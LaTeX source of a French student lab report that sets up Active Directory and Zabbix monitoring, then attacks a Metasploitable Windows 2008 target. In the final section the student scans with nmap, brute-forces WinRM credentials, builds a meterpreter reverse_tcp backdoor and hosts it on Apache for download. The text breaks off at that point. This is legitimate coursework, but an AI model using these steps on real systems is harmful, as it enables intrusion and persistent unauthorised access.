\documentclass[a4paper]{article}

\usepackage{lmodern}

%% Language and font encodings
\usepackage[french]{babel}
\usepackage[utf8x]{inputenc}
\usepackage[T1]{fontenc}

%% Sets page size and margins
\usepackage[a4paper,top=3cm,bottom=3cm,left=2cm,right=2cm,marginparwidth=2cm]{geometry}
%% Useful packages
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage[colorinlistoftodos]{todonotes}
\usepackage[colorlinks=true, allcolors=black]{hyperref}
\usepackage{fourier-orns}
\usepackage{titlesec}
\usepackage{fancyhdr}
\usepackage{fancyvrb}
%\renewcommand{\thefootnote}{\*}
\pagestyle{fancy} 
\setcounter{tocdepth}{5}



%% Tikz stuff
\usepackage{tikz}
\usetikzlibrary{calc, arrows}
\tikzstyle{incolore} = [rectangle, rounded corners, draw=black, minimum height=1cm, minimum width=3cm, text width=3cm, text centered]



\usepackage{libertine}
\newcommand{\hsp}{\hspace{20pt}}
\newcommand{\HRule}{\rule{\linewidth}{0.5mm}}





\renewcommand{\headrulewidth}{1pt}
\fancyhead[C]{} 
\fancyhead[L]{}
\fancyhead[R]{\footnotesize{\leftmark}}

\renewcommand{\footrulewidth}{1pt}
\fancyfoot[C]{} 
\fancyhead[L]{}
\fancyfoot[R]{\thepage}

\definecolor{Zgris}{rgb}{0.87,0.85,0.85}

\usepackage{eso-pic,graphicx}
\usepackage{xcolor}
\newcommand{\bgimg}[1]{
\AddToShipoutPicture
   {
      \put(\LenToUnit{0 cm},\LenToUnit{0 cm})
      {
            \includegraphics[width=\paperwidth,height=\paperheight]{#1} 
      }
   }
}

\usepackage{float}
\graphicspath{ {figures/} }

\begin{document}




%%\bgimg{Image_15.jpg}

















\begin{titlepage}
  \begin{sffamily}
  \begin{center}
    % Upper part of the page. The '~' is needed because \\
    % only works if a paragraph has started.
    
\includegraphics[width=5cm]{images/LogoHenallux.PNG}~\\[1.5cm]
    \textsc{\Large Rapport de l'infrastructure\\ Sécurité du système d'exploitation}\\[1.5cm]
    % Title
    \HRule \\[0.4cm]
    { \huge \bfseries Rapport d'examen\\Sécurité du système d'exploitation\\[0.4cm] }
    \HRule \\[2cm]
    % Author and supervisor
    \begin{minipage}{0.4\textwidth}
      \begin{flushleft} \large
        Sénéchal Julien\\
        Matricule: Etu42877

      \end{flushleft}
    \end{minipage}
    \begin{minipage}{0.55\textwidth}
      \begin{flushright} \large
		Sécurité des systèmes\\
		Hénallux\\
		Second Bloc, groupe C \\
		Année académique 2020-2021\\
      \end{flushright}
    \end{minipage}
    \vfill
    % Bottom of the page
    {\large 27 Mai 2021}
  \end{center}
  \end{sffamily}
\end{titlepage}







\let\cleardoublepage\clearpage

\tableofcontents
\newpage

\section{Mise en place de la Windows Server 2019}
\subsection{Mise en place de l'AD}
J'ai donc mis en place une Windows Server 2019 afin de mettre en place un Active Directory dont le domaine est \emph{"ETU42877DC.SECUOS.EXAM"}
\begin{figure}[H]
  \centering
  
\includegraphics[width=12cm]{images/Rapport/"Windows AD"/domaine.png}
  \caption{Mise en place de l'AD}
\end{figure}
Et le Netbios \emph{"SECUOS"} comme demandé
\begin{figure}[H]
  \centering
  \includegraphics[width=12cm]{images/Rapport/"Windows AD"/netbois.png}
  \caption{Nom du Netbios}
\end{figure}
\subsection{Ajouts des utilisateurs et de leurs privilèges}
Je me suis rendu dans \emph{Tools > Active Directory Users and Computer} puis j'ai créé les 2 users ETU42877ADM et ETU42877AD dans l'OU des Users.
\begin{figure}[H]
  \centering
  \includegraphics[width=12cm]{images/Rapport/"Windows AD"/"Ajout des 2 nouveaux users".png}
  \caption{Ajouts des utilisateurs}
\end{figure}
Ensuite, je suis allé dans l'OU \emph{Builtin} afin d'ajouter \emph{ETU42877ADM} au groupe \emph{Administrators}
\begin{figure}[H]
  \centering
  
\includegraphics[width=12cm]{images/Rapport/"Windows AD"/Admin.png}
  \caption{Ajout de ETU42877ADM dans le groupe Admin}
\end{figure}



\newpage
\section{Zabbix}
\subsection{Création du serveur Zabbix}
Je commence tout d'abord par créer le user \emph{ETU42877L} avec l'UID 1234 comme prouvé sur la \emph{figure 5}.
\begin{figure}[H]
  \centering
  
\includegraphics[width=12cm]{images/Rapport/zabbix/passwd.png}
  \caption{Screen de /etc/passwd}
\end{figure}
Pour plus de facilité, je suis ensuite passé en SSH et me suis mis a télécharger le .deb sur le repo officiel de Zabbix qui correspond a mon OS et a la version souhaitée. C'est à dire :
\begin{itemize}
  \item Zabbix Version : 5.4
  \item Os : Debian
  \item Version : 20.04
  \item Database : Mysql
  \item Web Server : Apache
\end{itemize}

\begin{figure}[H]
  \centering
  
\includegraphics[width=12cm]{images/Rapport/Zabbix/Dl_repo.png}
  \caption{Téléchargement du deb}
\end{figure}

Ensuite, je l'installe avec \emph{"dpkg -i"} et après un \emph{apt update} j'installe tout ce dont je vais avoir besoin.\\ 
Je mets en place le serveur Mysql, le serveur Nginx puis je redémarre le service \emph{Zabbix\_server} avant de vérifier son status.

\begin{figure}[H]
  \centering
  
\includegraphics[width=12cm]{images/Rapport/zabbix/status_zabbix.png}
  \caption{Vérification du serveur Zabbix}
\end{figure}

\subsection{Mise en place de l'interface Web en HTTPS}
\begin{enumerate}
  \item Génération de la clé privée
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/zabbix/1.png}
    \caption{Génération de la clé privée avec OpenSSL}
  \end{figure}
  \item Création du certificat sur base de la clé privée
  \begin{figure}[H]
    \centering
    
\includegraphics[width=13cm]{images/Rapport/zabbix/yoo.png}
    \caption{Création du certificat}
  \end{figure}
  \item Création d'une clée allant avec le certificat
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/zabbix/2.png}
    \caption{Création d'une clée associée au certificat}
  \end{figure}
  \item Je dois maintenant modifier le fichier de configuration du serveur Web se trouvant a \emph{/etc/Zabbix/nginx.conf} afin d'y renseigner l'adresse du certificat et de la clé, changer le port et d'activer la communication en SSL.
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/zabbix/"modification du bloc server".png}
    \caption{Modification du bloc server}
  \end{figure}
  \item Je profite d'être dans le fichier de configuration pour faire une redirection vers le port 443 si l'on essaie de contacter le port 80
  \begin{figure}[H]
    \centering
    \includegraphics[width=8cm]{images/Rapport/zabbix/"Ajout d'un bloc serveur pour faire une redirection".png}
    \caption{Redirection Http vers Https}
  \end{figure}
  \item Je vérifie que le serveur est bien en HTTPS ce qui est le cas. J'ai simplement une erreur dû au certificat auto-signé mais je n'ai pas pris le temps de l'ajouter sur ma machine.
  \begin{figure}[H]
    \centering
    
\includegraphics[width=12cm]{images/Rapport/zabbix/auto.png}
    \caption{Contacte bien en HTTPS}
  \end{figure}
\end{enumerate}

\subsection{Ajout de la Metasploitable Windows Server 2008}
\begin{enumerate}
  \item Tout d'abord, je télécharge l'agent sur le site officiel de Zabbix
  \item Je renseigne mon HOSTNAME, l'adresse IP de mon serveur Zabbix. Ici sur le screenshot, il y a une \textbf{erreur} : J'aurais du renseigner l'adresse de ma Zabbix Server pour l'ActiveServer
  mais par un manque d'attention. J'ai changé cette valeur plus tard dans le fichier de configuration.
  \begin{figure}[H]
    \centering
    \includegraphics[width=11cm]{images/Rapport/2k8/1.png}
    \caption{Installation de l'agent Zabbix}
  \end{figure}
  \item Je génère ensuite une clé en hexa grâce a un terminal linux (ici la zabbix server) qui deviendra ma PSK.
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/2k8/2.png}
    \caption{Génération d'une clé PSK}
  \end{figure}
  \item Je renseigne la PSK ainsi que son identifiant
  \begin{figure}[H]
    \centering
    \includegraphics[width=10cm]{images/Rapport/2k8/3.png}
    \caption{Reignement des informations liées a la PSK}
  \end{figure}
  \item Je fini par ajouter un host sur mon serveur avec ces informations :
  \begin{itemize}
    \item Hostname : METASPLOITABLE ETU42877
    \item Group : Metasploitable
    \item Template : Windows by Zabbix Agent (d'autres seront ajoutés plus tard)
    \item PSK : Même chose que sur l'agent Zabbix
  \end{itemize}
  \begin{figure}[H]
    \centering
    \includegraphics[width=18cm]{images/Rapport/zabbix/"Ajout de l'host Windows".png}
    \caption{Ajout de l'host Windows}
  \end{figure}
\end{enumerate}


\subsection{Ajout de la Metasploitable Ubuntu}
\begin{enumerate}
  \item Je télécharge le .deb a partir du site de Zabbix et ensuite je l'installe (ici la version 5.2 car dans la version 5.4 la possibilité de mettre un place une PSK n'est pas proposée de base dans le fichier de 
  configuration).
  \begin{figure}[H]
    \centering
    
\includegraphics[width=12cm]{images/Rapport/ubuntu/zabbix/11.png}
    \caption{Téléchargement du Deb}
  \end{figure}
  \item Installation de l'agent
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/ubuntu/zabbix/1.png}
    \caption{Installation de l'agent}
  \end{figure}
  \item Ensuite je me rend dans le fichier \emph{/etc/zabbix/zabbix\_agentd.conf} et je fais les changements suivants :
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/ubuntu/zabbix/2.png}
    \caption{Modification de l'adresse du serveur}
  \end{figure}
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/ubuntu/zabbix/3.png}
    \caption{Modification du Hostname de mon agent}
  \end{figure}
  \begin{figure}[H]
    \centering
    
\includegraphics[width=12cm]{images/Rapport/ubuntu/zabbix/serveractive.png}
    \caption{Modification de l'adresse ServerActive}
  \end{figure}
  \item Je crée ensuite une autre psk et je viens la renseigner dans le fichier de configuration de mon agent
  \begin{figure}[H]
    \centering
    
\includegraphics[width=12cm]{images/Rapport/ubuntu/zabbix/psk.png}
    \caption{Création d'une PSK}
  \end{figure}
  \begin{figure}[H]
    \centering
    
\includegraphics[width=13cm]{images/Rapport/ubuntu/zabbix/TLSconnect.png}
    
\includegraphics[width=13cm]{images/Rapport/ubuntu/zabbix/identi.png}
    \caption{Modification des informations liées au TLSConnect}
  \end{figure}
  \item Je fini par ajouter un host sur mon serveur avec ces informations :
  \begin{itemize}
    \item Hostname : Ubuntu ETU42877
    \item Group : Linux Server
    \item Template : Linux by Zabbix Agent
    \item PSK : Même chose que sur l'agent Zabbix
  \end{itemize}
  \begin{figure}[H]
    \centering
    \includegraphics[width=18cm]{images/Rapport/zabbix/"Ajout Ubuntu".png}
    \caption{Ajout de l'host Ubuntu}
  \end{figure}
\end{enumerate}

\subsection{Monitoring des connexions sur la Windows Server 2008}
\begin{enumerate}
  \item J'ai tout d'abord créé un template (modèle) nommé \emph{ConnexionMetasploitableW2k8}
  \begin{figure}[H]
    \centering
    
\includegraphics[width=16cm]{images/Rapport/zabbix/connexion/modele.png}
    \caption{Création d'un template}
  \end{figure}
  \item J'y ai ajouté un item en \textbf{Agent Zabbix (actif)} avec la clé \emph{"eventlog[Security,,,,4624,,skip]"}. 
  Cette clé signifie que l'information dont nous avons besoin est un log dans la catégorie "Sécurity" ayant pour identifiant l'id 4624 qui correspond aux logs de connexion sur Windows.
  La dernière option \emph{skip} nous permettra plus tard d'analyser chaque log un par un lorsque l'on devra mettre en place les Triggers et ainsi éviter de les faire réagir avec l'historique.
  \begin{figure}[H]
    \centering
    \includegraphics[width=16cm]{images/Rapport/zabbix/connexion/"key element".png}
    \caption{Création d'un item}
  \end{figure}
  \item Je vérifie alors que je reçois bien les logs sur ma Zabbix Server
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/zabbix/connexion/1.png}
    \caption{Récupération des logs}
  \end{figure}
  \item Je fini par créer 3 triggers, un pour chaque utilisateur:
  \begin{itemize}
    \item Severity : Informational
    \item Nom : Connexion de <user>
    \item Expression : Une fonction find qui va vérifier que le nom de l'utilisateur se trouve dans le dernier log reçu (Cette fonction n'existe pas sur Zabbix 5.2, son équivalent est la fonction "str")
  \end{itemize}
  \begin{figure}[H]
    \centering
    \includegraphics[width=16cm]{images/Rapport/zabbix/connexion/"trigger pour les connexions".png}
    \caption{Création des 3 triggers}
  \end{figure}
\end{enumerate}

\subsection{Monitoring des services de la Windows Server 2008}
Afin de trouver les noms des services, je suis allé sur sur la Windows 2k8, puis dans \emph{services.msc} et j'ai regardé les services qui nous intéressaient. 
Malheureusement, il me semble qu'il en manque deux ou trois dont Tomcat et PSexec. J'ai ensuite créé un nouveau template nommé \emph{ServicesMetasploitableW2k8} et j'ai créé un nouvel item pour chaque service que l'on veut monitorer.
La clé qui y est renseigné est \emph{"service\_state[service\_name]"}.
\begin{figure}[H]
  \centering
  \includegraphics[width=17cm]{images/Rapport/zabbix/services/"tous les items".png}
  \caption{Création de tous les items}
\end{figure}

Ensuite, j'ai mis en place un trigger pour chaque item créé précédemment.
Ici l'expression que j'ai utilisé est une fonction last afin de traiter uniquement le dernier état qui est envoyé au serveur Zabbix, ensuite je vérifie que cet état (étant d'un type numérique) n'est pas différent de 0
car 0 signifie que le service est en mode \emph{"Running"} et 6 qu'il est \emph{"Stopped"}. Si jamais l'état est différent de 0, alors le trigger apparaît sur le Dashboard.

\begin{figure}[H]
  \centering
  \includegraphics[width=17cm]{images/Rapport/zabbix/services/"les triggers".png}
  \caption{Création de tous les triggers}
\end{figure}

Pour vérifier que tout fonctionne, je coupe le service FTP de la machine Windows Server 2k8

\begin{figure}[H]
  \centering
  \includegraphics[width=9cm]{images/Rapport/zabbix/services/"test stop ftp".png}
  \caption{Arrêt du FTP pour tester}
\end{figure}

Nous avons bien le trigger \emph{Service "ftpsvc" down} qui est actif (Normalement l'hôte est en Orange parce que c'est une sévérité moyenne mais j'ai remarqué trop tard que j'ai pris le screen pendant qu'il clignotait.
On peut d'ailleurs le voir sur la figure 31)
On peut aussi remarquer mon matricule dans le nom de l'host créé précédemment.

\begin{figure}[H]
  \centering
  \includegraphics[width=17cm]{images/Rapport/zabbix/services/"trigger actif ftp".png}
  \caption{Affichage du trigger sur le Dashboard}
\end{figure}

\newpage
\section{Metasploitable}
\subsection{Mise en place de Metasploit}
\begin{enumerate}
  \item J'ai mis en place la base de données
  \begin{figure}[H]
    \centering
    \includegraphics[width=14cm]{images/Rapport/kali/1.png}
    \caption{Msfdb init}
  \end{figure}
  \item J'ai ensuite lancé la console metasploit grâce a \emph{msfconsole}
  \begin{figure}[H]
    \centering
    \includegraphics[width=14cm]{images/Rapport/kali/2.png}
    \caption{Msfconsole}
  \end{figure}
\end{enumerate}

\subsection{Phase de scanning de la Windows Server 2k8}
On vérifie tout d'abord que la machine est bien connectée au réseaux
\begin{figure}[H]
  \centering
  \includegraphics[width=12cm]{images/Rapport/kali/W2k8/1.png}
  \caption{Vérification que la machine est connectée}
\end{figure}
On cherche ensuite à savoir de quel OS il s'agit
\begin{figure}[H]
  \centering
  \includegraphics[width=17cm]{images/Rapport/kali/W2k8/2.png}
  \caption{Scan de l'OS}
\end{figure}
Après cela, je commence enfin les vrai scans avec \emph{"db\_nmap -sV [IP]"}. L'option -sV va me permettre de connaître les services associés aux ports ouverts ainsi que leurs versions.
\begin{figure}[H]
  \centering
  \includegraphics[width=16cm]{images/Rapport/kali/W2k8/3.png}
  \caption{Premier scan avec db\_nmap}
\end{figure}
Dans le doute, j'ai préféré refaire un scan incluant tous les ports possibles grâce à l'option \emph{-p-}
\begin{figure}[H]
  \centering
  \includegraphics[width=11cm]{images/Rapport/kali/W2k8/4.png}
  \caption{Second scan avec db\_nmap sur tous les ports}
\end{figure}
Enfin, grâce a la base de données de metasploit, je peux voir le résumé de mes différents scan grâce à \emph{"services"}. J'ai également noté mon matricule dans le fond car étant donné que l'on travaille sur
la console metasploit, on ne voit jamais l'utilisateur apparaître.
\begin{figure}[H]
  \centering
  \includegraphics[width=13cm]{images/Rapport/kali/W2k8/5.png}
  \caption{Résultat de tous mes scans}
\end{figure}

\subsection{Vulnérabilité : WinRM}
\begin{enumerate}
  \item J'ai tout d'abord cherché à savoir ce qu'était exactement le port 5985 parce que l'information que me donnait le scan ne me parlait pas. J'ai donc appris que c'était en général le service WinRM
  qui l'utilisait.
  \begin{figure}[H]
    \centering
    \includegraphics[width=14cm]{images/Rapport/kali/W2k8/winrm/1.png}
    \caption{Reconnaissance du port 5985}
  \end{figure}
  \item Afin de savoir si il y avait des modules pouvait me permettre d'attaquer le service WinRM, je me suis rendu sur Rapid7 où j'ai découvert que plusieurs modules pouvait m'être utile. Je vais donc en
  utiliser 2 à savoir \emph{WinRM Login Utiliy} et \emph{WinRM Command Runner}. Le premier va me permettre de faire un brute force sur le service afin de récupérer les credentials pour utiliser le second module
  qui lui va me permettre d'injecter des commandes dans une invite de commande Windows.
  \begin{figure}[H]
    \centering
    \includegraphics[width=13cm]{images/Rapport/kali/W2k8/winrm/2.png}
    \caption{Renseignement sur Rapid7}
  \end{figure}
  \item Je mets en place le brute force en utilisant 2 fichiers (un pour le username et un pour le password) qui sont directement sur notre kali dans \emph{"/usr/share/wordlists/metasploit/"}. 
  Et je complète aussi les autres options grâce a hosts -R qui va
  compléter certaines options grâce à la base de données qui fut complétée par mes scans.
  \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/kali/W2k8/winrm/3.png}
    \caption{Complétion des options}
  \end{figure}
  \item Voici les credentials obtenu
  \begin{figure}[H]
    \centering
    \includegraphics[width=15cm]{images/Rapport/kali/W2k8/winrm/4.png}
    \caption{Résultat du Brute force}
  \end{figure}
  \item Dans le but d'avoir un accès longue durée a la machine (ce que le 2ème module ne me permettra pas) j'ai créé une backdoor avec le payload \emph{"/windows/meterpreter/reverse\_tcp"}
  \begin{figure}[H]
    \centering
    \includegraphics[width=16cm]{images/Rapport/kali/W2k8/winrm/5.png}
    \caption{Création de la backdoor}
  \end{figure}
  \item A partir de là je me suis demandé comment j'allais pouvoir télécharger et lancer la backdoor sur la machine distante. J'ai choisis de partir sur un petit serveur Apache qui hébergerait ma backdoor,
  et qui me permettrait de la récupérer a partir d'un prompt Windows. Je commence donc par mettre en place le serveur WEB et je mets ma Backdoor dans le dossier \emph{/var/www/html/}.
  \begin{figure}[H]
    \centering
